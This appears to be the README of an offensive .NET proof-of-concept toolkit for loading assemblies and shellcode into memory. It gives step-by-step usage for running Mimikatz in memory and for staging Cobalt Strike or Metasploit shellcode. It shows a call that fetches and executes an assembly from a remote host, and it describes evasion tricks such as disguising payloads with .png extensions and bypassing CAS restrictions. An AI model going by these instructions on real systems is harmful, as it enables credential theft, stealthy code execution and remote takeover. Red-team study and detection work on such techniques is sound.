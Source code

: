 PoC demonstrating some methods for .NET assembly local/remote loading/injection into memory using System.AppDomain.ExecuteAssembly() and System.Reflection.Assembly.LoadFrom() method (check "NetAssembly-Injection/AssemblyLoader.cs" methods documentation).

The following projects are included in the VS2015 solution:

- KatzNetAssembly: A slightly modified version of @Subtee C# PE loader for injecting/running Mimikatz in memory using C#.

- ShellCodeLoader: A shellcode loader pinvoking unmanaged code (virtualalloc, createthread and waitforsingleobject) and injecting/executing shellcode in memory,
				 It can be used for bootstraping and executing coblat strike or msf generated shellcode.

- NetAssembly-Injection: Wraps 2 methods for remote/dynamic loading and execution of .NET assemblies in memory via AppDomain.ExecuteAssembly() and Assembly.LoadFrom().
						 (the third method "Load" was already demonstrated online by @malcomvetter)


Details:

 Method 1:

	-AppDomain can be used to create a sample container/sandbox to execute .NET assemblies within a restricted/sandboxed domain, 
	  it is usually used by developers to restrict access to local/remote resources for security purposes. 
      for instance, it can be used for restricting a third-party developed/used code to access the filesystem or network shares.

	-By default .NET applications are running under the default domain which restricts accessing remote resources, 
	  nonetheless it is possible to create domains with unrestricted permission states (PermissionSet(PermissionState.Unrestricted))
      for loading remote .NET assemblies and executing their main entry point.

	-The AppDomain.ExecuteAssembly("https://remote-host/assembly.exe") method takes a URL representing our hosted .NET assembly,
	  loads it into memory and execute it. (no need to instantiate a specific type or invoke its methods, 
      by default the main entry of the assembly is invoked/executed.)
 
	-Based on MSDN, ExecuteAssembly is leveraging Assembly.LoadFile() (in the background) for assembly loading/execution.

	-Assemblies can be renamed and modified extensions can be used ex: https://remote-host/assembly.png or .js, .txt, .html ..etc.
	  (assembly.exe renamed to assembly.png)

	-More details on:
		https://docs.microsoft.com/en-us/dotnet/api/system.appdomain.executeassembly?redirectedfrom=MSDN&view=netframework-4.7.2#overloads
		https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.loadfile?view=netframework-4.7.2


 Method 2:

	-Loads an assembly from a URL, create an instance based on a type (Class) containing a sepcific method name then invoke the method name.

	-Loading an assembly from a network location is by default now allowed due to default .NET framework CAS policy configuration, 
	 a FileLoadNotFound Exception will be thrown if '<runtime><loadFromRemoteSources enabled = "true" /></runtime>' is not specified in App.config
	 System.Reflection.Assembly.UnsafeLoadFrom() method can be used instead.

	-More detais on: 
	 https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.loadfrom?view=netframework-4.7.2






Example - Usage: 

Example 1:

 Running Mimikatz: Build KatzNetAssembly project, copy the generated "bin/debug/KatzNetAssembly.exe" .NET assembly/binary to a remote web server, then use (NetAssembly-Injection project) Method1() or Method2() to 
 load and execute (in-memory) the remote "KatzNetAssembly.exe" binary.

Example 2:

 Generate x64 Shellcode via cobalt strike or msf, replace the shellcode byte array with your own (in ShellCodeLoader project Program.cs), build the ShellCodeLauncher project, upload 
 the resulted assembly/binary "bin/debug/ShellCodeLoader.exe" to a remote web server, then use (NetAssembly-Injection project) Method1() or Method2() for remote loading/execution.				
